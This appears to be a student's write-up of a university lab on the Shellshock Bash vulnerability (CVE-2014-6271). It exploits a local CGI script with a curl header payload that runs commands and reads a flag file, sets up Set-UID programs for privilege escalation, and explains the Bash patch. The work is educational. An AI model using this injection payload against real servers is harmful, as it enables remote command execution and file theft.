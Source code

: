 # CSUS CSC154: Extra Credit Lab (Shell Shock Attack)
[Extra Credit Lab PDF](./writeup/pdf/)

# Objective  
On September 24, 2014, a severe vulnerability in Bash was identified. Nicknamed Shellshock, this vulnerability can exploit many systems and be launched either remotely or from a local machine. In this lab, students need to work on this attack, so they can understand the Shellshock vulnerability. The learning objective of this lab is for students to get a first-hand experience on this interesting attack, understand how it works, and think about the lessons that we can get out of this attack.

# Tasks  

## Task 1: Attack CGI programs   

### Setup
First we set up the CGI Program. The first step is to write a very simple CGI program (called myprog.cgi). It simply prints out `Hello World` using shell script.

```bash
#!/bin/bash
echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```

We place the above CGI program into `/usr/lib/cgi-bin`, and set its permissions to `755`. This folder is the default CGI directory for the Apache web server.


![1_create_myprog](./writeup/images/1_create_myprog.png)  
**Figure 1:** Creating and setting permissions for `myprog.cgi`.


Now we can access this CGI program via our web browser by visiting `http://localhost/cgi-bin/myprog.cgi`  
![1_visiting_cgi](./writeup/images/1_visiting_cgi.png)  
**Figure 2:** Visiting the newly created CGI program.  

In order to demonstrate the attack, lets put a `flag.txt` in the `seed` user's `Downloads` folder. It's safe to say that this folder shouldn't be accessible remotely.  
![create_flag](./writeup/images/create_flag.png)  
**Figure 3:** Placing a flag to grab during attack.

### Attack
After the above CGI program is set up, we can launch the Shellshock attack. Our goal is to launch the attack through the URL `http://localhost/cgi-bin/myprog.cgi`, such that we can achieve something that cannot (should not) be achievable by a remote user. 

Using *curl* we can include our exploit in the header variable. In figure 4 below we're using many header fields as examples to show that field doesn't really matter.  

```bash
curl -H "ANYTHING: () { :;}; echo; /bin/cat /home/seed/flag.txt" http://localhost/cgi-bin/myprog.cgi
```

![cgi_exploited](./writeup/images/cgi_exploited.png)  
**Figure 4:** Exploiting CGI with many headers, same payload.


**Get a reverse shell with Kali if there's time**


Breaking down the *curl* command we can see that the request url `http://localhost/cgi-bin/myprog.cgi` is our vulnerable CGI application running locally. The header we've included can be called whatever we want in this case, but its value must contain the payload `() { :;}; echo; /bin/cat /home/seed/flag.txt`, where `(){ :;};` is an empty environmental variable, and where `/bin/cat /home/seed/flag.txt` can be whatever commands we wish to try and execute on the machine.

>Function definitions are exported by encoding them within the environment variable list as variables whose values begin with parentheses ("()") followed by a function definition. The new instance of Bash, upon starting, scans its environment variable list for values in this format and converts them back into internal functions. [4](https://security.stackexchange.com/questions/68448/where-is-bash-shellshock-vulnerability-in-source-code)

The vulnerability appears in the Bash source code [`variables.c`](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Software/Shellshock/files/variables.c) **line 351** `parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);`.

This was patched in the following way.

```c
 	  if (posixly_correct == 0 || legal_identifier (name))
	    parse_and_execute (temp_string, name, SEVAL_NONINT|SEVAL_NOHIST);
``` 

An [explanation of the patch](https://stackoverflow.com/questions/26022248/is-the-behavior-behind-the-shellshock-vulnerability-in-bash-documented-or-at-all) from Stack Overflow
> You can see that in the new code, a flag called SEVAL_ONECMD has been added that tells Bash to only evaluate the first command (that is, the function definition) and SEVAL_FUNCDEF to only allow function definitions.


## Task 2: Attack Set-UID programs

In this task, we use Shellshock to attack Set-UID programs, with a goal to gain the root privilege. Before the attack, we need to first let /bin/sh to point to /bin/bash (by default, it points to /bin/dash in our SEED Ubuntu 12.04 VM). You can do it using the following command: `sudo ln -sf /bin/bash /bin/sh`


### Task 2A  
The following program is a Set-UID program, which simply runs the "/bin/ls -l" command. Please compile this code, make it a Set-UID program, and make root be its owner. As we know, the system() function will invoke "/bin/sh -c" to run the given command, which means `/bin/bash` will be invoked. Can you use the Shellshock vulnerability to gain the root privilege?

```c
#include <stdio.h>
void main() {
    setuid(geteuid()); // make real uid = effective uid.
    system("/bin/ls -l");
}
```

It should be noted that using `setuid(geteuid())` to turn the real uid into the effective uid is not a common practice in Set-UID programs, but it does happen.  


### Task 2C  
Another way to invoke a program in C is to use `execve()`, instead of `system()`. The following program does exactly what the program in Task 2A does. Please compile the code, and make it a Set-UID program that is owned by root. Launch your Shellshock attack on this new program, and describe and explain your observation.

```c
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
char **environ;
int main() {
    char *argv[3];
    argv[0] = "/bin/ls";
    argv[1] = "-l";
    argv[2] = NULL;
    setuid(geteuid()); // make real uid = effective uid.
    execve(argv[0], argv, environ);
    return 0 ;
}
```


### Task 2B 

Now, remove the `setuid(geteuid())` statement from the above program, and repeat your attack. Can you gain the root privilege? Please show us your experiment results. In our experiment, when that line is removed, the attack fails (with that line, the attack is successful). In other words, if the real user id and the effective user id are the same, the function defined in the environment variable is evaluated, and thus the Shellshock vulnerability will be exploited. However, if the real user id and the effective user id are not the same, the function defined in the environment variable is not evaluated at all. This is verified from the bash source code (variables.c, between Lines 308 to 369). You can get the source code from the lab web site. Please pinpoint exactly which line causes the difference, and explain why Bash does that.





## Task 3: Questions
This is a writing task, please answer the following questions in your report:

1. Other than the two scenarios described above (CGI and Set-UID program), is there any other scenario that could be affected by the Shellshock attack? We will give you bonus points if you can identify a significantly different scenario and you have verified the attack using your own experiment.

2. What is the fundamental problem of the Shellshock vulnerability? What can we learn from this
vulnerability?


# References

1. [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)
2. [OWASP Shellshock](https://www.owasp.org/images/1/1b/Shellshock_-_Tudor_Enache.pdf)
3. [GitHub Repo by OPSXCQ](https://github.com/opsxcq/exploit-CVE-2014-6271)
4. [Security Stack Exchange](https://security.stackexchange.com/questions/68448/where-is-bash-shellshock-vulnerability-in-source-code)
5. [Stack Overflow](https://stackoverflow.com/questions/26022248/is-the-behavior-behind-the-shellshock-vulnerability-in-bash-documented-or-at-all)